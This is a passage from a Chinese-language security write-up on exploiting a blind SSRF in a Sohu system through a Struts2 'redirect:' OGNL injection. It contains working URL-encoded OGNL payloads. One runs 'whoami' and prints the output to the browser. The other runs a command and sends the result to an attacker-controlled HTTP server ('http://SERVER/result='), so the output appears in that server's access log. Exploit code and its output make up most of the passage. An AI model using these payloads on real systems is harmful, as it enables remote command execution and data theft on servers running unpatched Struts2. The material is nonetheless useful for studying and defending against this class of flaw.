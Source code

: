 ```

![enter image description here](http://drops.javaweb.org/uploads/images/ce1a4299240e824a1c627ed7fb1e5a248d760e44.jpg)

由服务器端Access日志可以看出,命令执行成功

![enter image description here](http://drops.javaweb.org/uploads/images/b8825748144e57383ce23590a1f19febce55e528.jpg)

其实通过上面的这种方式,我们已经完全能够准确的判断Payload Result的执行状态, 但是这不是我要的, 我想要Payload Result执行结果. 带回显的POC:

```
?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}

```

![enter image description here](http://drops.javaweb.org/uploads/images/ab2b7207e685721219a531a722712c5d7aa8eeda.jpg)

将命令执行结果Redirect到远程:

![enter image description here](http://drops.javaweb.org/uploads/images/250e2594300883a838b5105a9ab46bb703647850.jpg)

我们可以看到本地浏览器可以打印出结果,但是远程Access.log不会有任何日志. 对Java懂一点点的人都知道(比如我,对Java略懂一点点), 这里的POC的作用就是本地打印,所以肯定是不行的. 下一步我们就需要更改POC , 因为对Java不熟, 为此花费了大半天的时间,写下下面的POC:

```
?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}

```

SERVER是我们的HTTP服务器IP地址, 我们获取命令执行结果,然后把他作为一个URL参数发送到远程SERVER上, 所以我们可以在远程SERVER的access.log看到命令的执行结果.

![enter image description here](http://drops.javaweb.org/uploads/images/81dcf298f58e3b5ac717dcf3775f1cfcc8fc8694.jpg)

远程服务器日志:

![enter image description here](http://drops.javaweb.org/uploads/images/961ebbb8dd0d18c9c926b47b0c2dde2f6d36f638.jpg)

至此, 我们完成了从一个BOOL型的SSRF转换为一个普通的SSRF,我们可以获取到任何Payload的执行结果, 我只能说这是一个质的飞跃.

说明: 对于文中浏览器中执行的返回信息,我们仅仅是在做测试,对于BOOL型SSRF这些信息对我们是不可见的, 我们能看到的仅仅是Server端的access.log日志.

0x05 Other(想到什么写什么)
===================

* * *

Bool型SSRF的其他利用方式-反射性XSS也是一种可利用的思路,不过挖掘的难度相对较大

此文是对搜狐SSRF漏洞利用过程中的一些思考,实践和总结.

```